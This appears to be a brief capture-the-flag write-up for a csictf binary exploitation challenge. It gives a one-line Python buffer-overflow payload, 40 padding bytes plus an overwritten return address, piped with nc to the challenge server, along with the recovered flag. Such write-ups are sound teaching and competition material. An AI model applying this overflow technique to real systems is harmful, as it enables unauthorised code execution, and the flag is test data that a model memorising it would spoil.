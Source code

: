 **Challenge:** nc chall.csivit.com 30013 and pwn3 (file)

Execute: `python2 -c 'print "A" * 40 + "\xce\x11\x40\x00\x00"' | nc chall.csivit.com 30013`

**Flag:** csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}
